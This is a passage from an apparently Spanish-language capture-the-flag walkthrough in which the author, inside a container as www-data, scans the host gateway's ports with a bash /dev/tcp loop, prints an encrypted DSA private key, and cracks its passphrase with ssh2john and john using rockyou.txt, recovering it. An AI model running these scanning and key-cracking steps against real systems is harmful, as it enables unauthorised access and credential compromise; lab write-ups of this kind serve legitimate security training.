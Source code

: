> Como el contenedor tiene asignada la IP `192.168.150.21` intuyo que la máquina principal tiene otra interfaz de red con la IP `192.168.150.1` asignada aparte de la `192.168.18.144`.

```bash
www-data@e71b67461f6c:/$ hostname -i
192.168.150.21
www-data@e71b67461f6c:/$ for port in $(seq 1 65535);do echo '' > /dev/tcp/192.168.150.1/$port && echo "[+] PORT $port - OPEN"; done 2>/dev/null
[+] PORT 22 - OPEN
[+] PORT 80 - OPEN
```

Como vemos con el escaneo si que está corriendo SSH así intento crackear la clave privada para intentar conectarme.

```bash
❯ cat id_rsa
-----BEGIN DSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2037F380706D4511A1E8D114860D9A0E

ds7T1dLfxm7o0NC93POQLLjptTjMMFVJ4qxNlO2Xt+rBqgAG7YQBy6Tpj2Z2VxZb
uyMe0vMyIpN9jNFeOFbL42RYrMV0V50VTd/s7pYqrp8hHYWdX0+mMfKfoG8UaqWy
gBdYisUpRpmyVwG1zQQF1Tl7EnEWkH1EW6LOA9hGg6DrotcqWHiofiuNdymPtlN+
it/uUVfSli+BNRqzGsN01creG0g9PL6TfS0qNTkmeYpWxt7Y+/R+3pyaTBHG8hEe
zZcX24qvW1KY2ArpSSKYlXZw+BwR5CLk6S/9UlW4Gls9YRK7Jl4mzBGdtpP85a/p
fLowmWKRmqCw2EH87mZUKYaf02w1jbVWyjXOy8SwNCNr87zJstQpmgOISUc7Cknq
JEpv1kzXEVJCfeeA1163du4RFfETFauxALtKLylAqMs4bqcOJm1NVuHAmJdz4+VT
GRSmO/+B+LNLiGJm9/7aVFGi95kuoxFstIkG3HWVodYLE/FUbVqOjqsIBJxoK3rB
t75Yskdgr3QU9vkEGTZWbI3lYNrF0mDTiqNHKjsoiekhSaUBM80nAdEfHzSs2ySW
EQDd4Hf9/Ln3w5FThvUf+g==
-----END DSA PRIVATE KEY-----

❯ ssh2john id_rsa > hash

❯ john -w:/usr/share/seclists/rockyou.txt hash
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 50.54% (ETA: 08:42:49) 0g/s 1451Kp/s 1451Kc/s 1451KC/s imnotgay1996..imnoteliza
choclate93       (id_rsa)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:09 DONE (2023-09-03 08:42) 0.1048g/s 1503Kp/s 1503Kc/s 1503KC/s *7¡Vamos!
Session completed
```

Tenemos contraseña: **choclate93**.
